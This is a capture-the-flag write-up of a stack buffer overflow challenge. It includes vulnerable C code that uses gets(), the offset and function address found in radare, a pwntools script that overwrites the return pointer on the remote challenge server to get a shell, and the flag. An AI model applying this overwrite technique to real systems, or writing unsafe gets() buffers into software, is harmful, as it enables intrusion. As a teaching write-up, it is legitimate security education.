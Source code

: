 # Overflow 2

![Binary Exploitation](https://img.shields.io/badge/Binary%20Exploitation--00aaff?style=for-the-badge) ![Points - 225](https://img.shields.io/badge/Points-225-9cf?style=for-the-badge)

```txt
ez overflow (or is it?)
nc cyberyoddha.baycyber.net 10002
- Haskell#1426
```

---

... another _not too_ difficult _pwn_ challenge. This one differs from the previous challenge in you not having to overflow into another array on the stack, but rather into the function return pointer itself.

By looking at the source code, you'll see that you want to somehow call `run_shell` in order to get the flag... it's also not too difficult to see that the insecure function `gets` is being used instead of one of its safer alternatives - this will allow us to write arbitrary data onto the stack ...

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void run_shell(){
	system("/bin/sh");
}

void vuln(){
	char buf[16];
	gets(buf);
}

int main(void) {
	vuln();  
}
```

... in radare, we can see that the function return pointer, which we want to overflow into is stored `0x1c` bytes after the beginning of the input buffer. Furthermore, we see that the `run_shell` function begins at `0x8049172` ...

![return](./return.png)

![run_shell](./run_shell.png)

You can use a short exploit script like the following to get a shell:

```py
#!/usr/bin/python3

import struct
from pwn import *

run_shell=0x8049172
left_padd=0x1c
r = remote('cyberyoddha.baycyber.net', 10002)

r.sendline(b'X'*left_padd+struct.pack('<I',run_shell))
r.interactive()
```

... now... simply cat the flag: `CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}`

